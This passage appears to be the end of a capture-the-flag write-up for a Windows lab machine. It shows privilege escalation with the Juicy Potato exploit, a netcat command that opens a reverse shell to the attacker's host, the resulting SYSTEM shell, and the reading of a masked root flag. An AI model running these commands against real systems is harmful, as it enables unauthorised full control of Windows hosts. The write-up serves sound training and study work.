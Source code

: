 ```
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled                 
                                                                                                 
```

This means we can run the [`Juicy Potato`](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) exploit!

# Exploitation (2)

Note that we will need to have another `nc` listener. 

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Now, after transferring a copy of `juicypotato.exe` and a `nc.exe`, we just need to run the following command.

```
C:\tmp> juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\tmp\nc.exe -e cmd.exe 10.10.XX.XX 1337" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

And finally, on our listener, we get a shel as `SYSTEM`!

```
$ rlwrap nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.93] 49464
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
whoami
nt authority\system
```

# root.txt

The root flag is in `Administrator`'s Desktop.

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
9359XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !